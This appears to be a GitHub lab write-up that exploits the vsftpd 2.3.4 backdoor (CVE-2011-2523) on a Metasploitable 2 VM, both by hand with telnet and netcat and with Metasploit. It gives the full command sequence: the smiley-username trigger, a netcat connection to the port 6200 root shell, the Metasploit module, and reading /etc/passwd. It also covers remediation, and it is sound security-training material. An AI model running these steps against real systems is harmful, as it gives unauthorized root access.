 # Manual and Metasploit Exploitation of vsftpd 2.3.4 on Metasploitable 2

## 📌 Overview

This project covers two methods of exploiting the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523) on Metasploitable 2. This specific vulnerability is due to a backdoor introduced by a malicious actor in this particular version of vsftpd.

- **Manual exploitation** using basic tools like `telnet` and `netcat`
- **Automated exploitation** using `msfconsole` (Metasploit Framework)

The goal was to gain a deeper understanding of the vulnerability by exploring both methods, ultimately achieving root shell access.

---

## 🛠 Lab Setup

| Component      | Details                                  |
|----------------|-------------------------------------------|
| Attacker VM    | Kali Linux (VirtualBox)                  |
| Target VM      | Metasploitable 2                         |
| Network Mode   | Host-Only Adapter                        |
| Tools Used     | `nmap`, `telnet`, `netcat`, `msfconsole`, `ping` |

---

## 🔍 Exploitation Method 1: Manual (Telnet + Netcat)

### 1. Identify Metasploitable IP Address

```bash
ifconfig
```

![Ping success](meta-ip.png)

---

### 2. Ping from Kali to Confirm Connection

```bash
ping [target IP]
```

![Ping success](ping-kali.png)

---

### 3. Scan Open Ports with Nmap

```bash
nmap -sS -sV [target IP]
```

Result: Port **21/tcp** running `vsftpd 2.3.4`

![Ping success](nmap-scan.png)

---

### 4. Trigger the Backdoor with Telnet

```bash
telnet [target IP] 21
```

Login:
```
USER test:)
PASS test
```

![Ping success](closed-by-foreign-host.png)

---

### 5. Connect to the Backdoor with Netcat

```bash
nc [target IP] 6200
```

Run post-exploit commands:
```bash
whoami
uname -a
cat /etc/passwd
```

![Ping success](root-access-change.png)

---

## ⚡ Exploitation Method 2: Using Metasploit

### 1. Start Metasploit Console

```bash
msfconsole
```

---
![Ping success](msf-1.png)

### 2. Search for the vsftpd Exploit

```bash
search vsftpd
```

Use the backdoor module:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

![Ping success](msf-root-access.png)

---

### 3. Set Target Information

```bash
set RHOST [target IP]
```

![Ping success](msf-root-access.png)

---

### 4. Run the Exploit

```bash
run
```

Successful output:
```
Found shell.
Command shell session 1 opened...
```

![Ping success](msf-root-access.png)

---

### 5. Verify Access

```bash
whoami
uname -a
cat /etc/passwd
```

![Ping success](msf-root-access.png)

---

## 🧠 Lessons Learned

### 🛡️ Impact and Remediation

This vulnerability allows for full system compromise, leading to unauthorized access to sensitive data and the ability to pivot to other systems within a network. To mitigate this, it is crucial to upgrade vsftpd to a patched version, implement proper network segmentation, and regularly patch systems.

- Manual exploitation teaches protocol-level logic and networking fundamentals
- Metasploit drastically simplifies the process but understanding the logic behind it is crucial
- Proper network configuration (e.g., NAT vs Host-Only) is critical
- Some backdoors only work **once per boot**, which requires timing or resets

---

## Screenshot Suggestions

- Metasploitable IP shown via ifconfig
- Successful ping from Kali
- Nmap scan showing port 21
- Telnet trigger session
- Netcat shell session
- Metasploit shell session
- Commands run post-exploit (whoami, etc.)

---

## Completion Checklist

| Task                          | Status |
|-------------------------------|--------|
| VM Setup                      | ✅     |
| Nmap Scanning                 | ✅     |
| Manual Exploit Triggered      | ✅     |
| Remote Root Shell (manual)    | ✅     |
| Metasploit Exploit Used       | ✅     |
| Root Access Verified          | ✅     |
| Screenshots Captured          | ✅     |
| Writeup Created               | ✅     |

---

## Final Thoughts

Both approaches led to full system compromise. The manual method built foundational skills while Metasploit demonstrated how automation accelerates real-world penetration testing. This lab reinforced my understanding of network reconnaissance, vulnerability exploitation, and post-exploitation techniques, proving valuable for my offensive security skill set. This was a successful offensive security lab that will be used as a portfolio project.

